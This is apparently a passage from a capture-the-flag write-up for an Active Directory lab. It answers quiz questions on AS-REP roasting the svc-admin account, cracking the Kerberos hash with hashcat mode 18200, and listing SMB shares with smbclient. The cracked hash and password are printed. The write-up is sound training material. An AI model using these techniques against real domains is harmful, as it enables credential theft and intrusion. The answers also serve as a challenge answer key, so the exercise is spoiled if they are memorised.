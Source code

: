 
### We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

`svc-admin` &uarr;

### Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

`Kerberos 5 AS-REP etype 23` &darr;

![krb5asrep](/assets/img/thm/windows/attackive-directory/krb5asrep.png)

### What mode is the hash?

`18200` &uarr;

### Now crack the hash with the modified password list provided, what is the user accounts password?

```bash
$ hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
...
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:b4c31112ac39aae6cc44a1ee38b898d8$cbdf8ee2166813e2ba6fe8e385f1469d3dbeed4a676a9068c528ab383cf9ae32bffe15ef9b35758c7a2a00c800752004aba07284913712bb68eb4e8f78f41a050bc87f8e3d8599817efcac36b410e56b5927564929f7e5c61b1179db7dd4e6a97e8de381244e145bc0562d31b261f9bbf945f41b89c9a9b0875e35bc35456518acac08a79e03948fd9906eb72f3fbe2a88399f4c1a54f7f2448d79e20979048ff3c4053527c582677c7403a02615a92d8e204c756645849112f8de087e1791909dcf5945a93fffadc60fe94a54f834d4794dd5fce7d36fceb2ac2d591a222b360b0ddcd085aaa7f753f5e868ffa01f3cc4a8:management2005
..
```

___

## Enumration (Back to the Basics)

### Using utility can we map remote SMB shares?

`smbclient`

###  Which option will list shares?

`-L`
